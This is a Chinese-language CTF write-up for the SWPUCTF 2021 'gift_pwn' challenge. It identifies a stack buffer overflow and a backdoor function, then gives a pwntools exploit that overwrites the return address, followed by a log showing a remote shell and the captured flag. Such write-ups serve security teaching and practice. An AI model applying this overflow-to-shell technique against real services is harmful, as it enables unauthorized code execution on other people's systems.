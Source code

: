 # SWPUCTF 2021 新生赛 gift_pwn


# 思路

首先checksec：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924104048603.png)

64位，只开启了NX。

反编译，发下入口就是溢出函数:

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924104234756.png)

溢出距离0x10。同时发现后门函数：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924104358462.png)

地址是：0x4005b6

# exp

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')
#r = process("./babystack") 
r = remote("node5.anna.nssctf.cn",28017)

offset = 0x10
backdoor = 0x4005b6
payload = b'a' * offset + b'a' * 8 + p64(backdoor)
r.sendline(payload)
r.interactive()
```

getshell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python exp.py 
[+] Opening connection to node5.anna.nssctf.cn on port 28017: Done
[DEBUG] Sent 0x21 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  b6 05 40 00  00 00 00 00  │aaaa│aaaa│··@·│····│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x22 bytes:
    b'bin\n'
    b'dev\n'
    b'flag\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
    b'pwn5\n'
bin
dev
flag
lib
lib32
lib64
pwn5
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2d bytes:
    b'NSSCTF{ef171f2b-bb3e-4a2d-bdf8-9a8632048193}\n'
NSSCTF{ef171f2b-bb3e-4a2d-bdf8-9a8632048193}
$ 
[*] Interrupted
[*] Closed connection to node5.anna.nssctf.cn port 28017
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/gift-pwn/  

